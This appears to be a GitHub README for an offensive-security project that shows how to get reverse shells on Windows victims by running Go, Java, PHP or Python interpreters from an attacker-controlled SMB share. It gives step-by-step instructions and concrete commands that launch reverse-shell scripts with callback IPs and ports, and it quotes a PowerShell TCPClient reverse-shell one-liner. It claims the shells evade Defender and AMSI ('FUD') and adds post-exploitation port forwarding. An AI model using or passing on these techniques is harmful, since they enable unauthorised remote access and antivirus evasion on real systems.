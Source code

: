 # LOI Bins (Living off the Island) Binaries - A remote SMB Island in the middle of nowhere
## Abusing Remote Windows SMB Shares to Get Reverse Shells In ~~Any~~ Some Programming Languages

This repo is WIP (Work In Progress)

This is some research and techniques of ways to Execute Code in a number of different Programming Languages on a Victim Windows Host which doesnt have the environment installed.

This is nothing ground breaking, but I havent seen this technique documented anywhere. As long as you have the right environment installed on your Attacker Controlled Windows Device you can essentially run any code you wish in memory on the compromised machine. 

More will be added as and when I have the time to research it.

Programming Languages Tested With

1. [Go](#Go)
2. [Java](#example-with-java)
3. [PHP](#example-with-php)
4. Python - See here https://github.com/deeexcee-io/Eazee-As-Py

Post exploitation Techniques

1. [Python Port Forward - No SSH](#port-forward-example)
2. [Python Interpreter in Memory](#python-interpreter-example)

## Set the Scene

Lets say you have command execution on a host, your going to want to run a command to return a reverse shell. I would normally for something like `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.0.169',4444);........" `

Now with this aproach we have AMSI and Defender/AV. Running something like this without an AMSI bypass or obfuscation will get killed. Assuming our victim can reach out over SMB, typically we could either copy files over and execute them (which puts files on disk) or just execute an .exe straight from the share (which is nothing new)

This approach does the latter that but what we do is call the .exe of our programming language of choice and also pass it a script, both of which are stored on our attacker controlled SMB share. This loads the script, binaries a dependencies into memory and executes
Defender will still scan the scripts but by utilising **Go, Java, PHP etc** we have more flexibility to bypass static signatures. Testing with random un-obfuscated reverse shell scripts in these languages has proved successful.

You can also utilise these programming languages to carry out post exploitation in weird and wonderful ways. You could even just call python.exe from the remote share and drop straight into the [Interpreter](#python-interpreter-example) loaded from the SMB share straight into memory.

The process is extremely simple.

## <a name="Go"></a>Example with Go

1. Have a Windows Victim where you can run commands
2. Have a Windows Attack Box with your Programming Environment of choice - Python Java and Go are the only ones I have tested so far
3. Have a Kali Box or NCat on your Windows Attack Box to catch the Reverse Shell
4. Share the Folder where your Python/Java/Go.exe Application is
5. Have your Reverse Shell script also in the same folder
6. Run your command in CMD/PowerShell i.e with Go it is `\\192.168.59.130\Go\go.exe run \\192.168.59.130\Go\shell.go` where `\\192.168.59.130\Go\` is the Attacker Controlled Remote Share and `run` for `go run` and `\\192.168.59.130\Go\shell.go` is the Reverse Shell Code.

  ![image](https://user-images.githubusercontent.com/130473605/235157805-16805cb8-0019-44a7-acb2-4717a273c60a.png)


7. Sit back and execute Go on a Windows Victim Host that doesnt have it installed.

**NB - Give it time, can take a while to drop in**

![image](https://user-images.githubusercontent.com/130473605/235159127-c5551ddd-07b3-408e-baa7-ec45869b56ab.png)

**NBNB - shell.go is FUD @ 28/04/2023**

![image](https://user-images.githubusercontent.com/130473605/235163241-a43353c0-f538-4b6b-ad3e-4943631242ec.png)


## <a name="Java"></a>Example with Java

1. Download and Install JRE 
2. Share /bin folder - C:\Program Files\Java\jre-1.8\bin - I renamed my bin folder JRE when sharing in Advanced Sharing
3. Download Reverse-Shell.jar and place in /bin folder - Stolen from https://github.com/ivan-sincek/java-reverse-tcp/blob/main/jar/Reverse_Shell.jar
4. Execute java and jar file whilst bypassing Defender `\\192.168.59.130\JRE\bin\java -jar \\192.168.59.130\JRE\bin\Reverse_Shell.jar 10.201.20.61 8445`

![image](https://user-images.githubusercontent.com/130473605/235175752-b3b26e3d-5f12-4052-a124-a498cc28a8c8.png)

5. Enjoy a Java Reverse Shell from a Windows Host that doesnt have Java Installed

![image](https://user-images.githubusercontent.com/130473605/235176177-20c77e58-0a72-49e4-8036-317389f6591d.png)

## <a name="PHP"></a>Example with PHP

Same as above. Install PHP on Windows and call the php.exe application and reverse shell script.

![image](https://user-images.githubusercontent.com/130473605/235460758-c8660755-0280-4eac-a53a-4a73e0d0dfb3.png)

Catch Shell in Kali

![image](https://user-images.githubusercontent.com/130473605/235460817-62909b39-33fc-4e5c-9de9-17e057bec08a.png)


## <a name="PF"></a>Port Forward Example

## Post Exploitation

In this example you have a HTTP Server listening on localhost and want to exploit it (My Nessus Server in this case port 8834)


![image](https://user-images.githubusercontent.com/130473605/235459846-d72eb2f6-b35a-49f7-9ea4-faf5e8ef3a03.png)


Point to remote share and port forward script telling the host to listen on port 22222 and forward any traffic to 127.0.0.1:8834 (nessus)

![image](https://user-images.githubusercontent.com/130473605/235459541-ddb4806d-4ab0-41e4-8886-63ec8c2f2791.png)

This opens up an external port which you can then browse to. You can now access the Internal HTTP Server on your attacking machine. 

![image](https://user-images.githubusercontent.com/130473605/235460235-828b6079-1920-4907-a91c-6d8461a0b86d.png)

## <a name="PF"></a>Python Interpreter Example

Its as simple as pointing to a remote share which then loads python into memory. 

![image](https://user-images.githubusercontent.com/130473605/235461798-2cc3bada-d39e-48f7-82d1-d6a207d600ae.png)

![image](https://user-images.githubusercontent.com/130473605/235464000-614a31d4-8847-413f-8a21-15826483bbbf.png)

